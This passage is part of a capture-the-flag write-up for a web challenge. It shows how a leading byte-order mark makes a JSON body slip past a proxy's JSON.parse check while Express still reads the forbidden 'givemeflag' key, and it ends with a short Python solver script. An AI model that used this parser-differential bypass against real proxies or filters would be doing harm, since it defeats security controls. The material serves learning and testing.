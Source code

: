 ```javascript title="proxy/index.js"
  },
});

app.listen({ port: PORT, host: "0.0.0.0" });
```
However, the `proxy` server returns `🚩` when it receives a JSON containing a key `givemeflag`.

### Solution

You should make a JSON that satisfies the following conditions:

- The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `givemeflag`.
- The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.

In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:
```json
\ufeff{"givemeflag": true}
```

Web frameworks often allow JSON values to be added a BOM at the beginning. For example, Fastify and Express check a BOM at:

- Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
- Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

It is also mentioned on section 8.1 of RFC 8259:

> Implementations MUST NOT add a byte order mark (U+FEFF) to the beginning of a networked-transmitted JSON text.  In the interests of interoperability, implementations that parse JSON texts **MAY** ignore the presence of a byte order mark rather than treating it as an error.
>
> From: https://datatracker.ietf.org/doc/html/rfc8259#section-8.1

On the other hand, `JSON.parse` does not allow a BOM:
```javascript
> JSON.parse('{"givemeflag": true}')
{ givemeflag: true }
> JSON.parse('\ufeff{"givemeflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"givemef"... is not valid JSON
```

### Solver

```python
import httpx
import os

BASE_URL = os.environ["WEB_BASE_URL"]

res = httpx.post(
    BASE_URL,
    headers={"Content-Type": "text/plain"},
    content='\ufeff{"givemeflag": true}',  # UTF-8 BOM
)
print(res.text)
```


[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/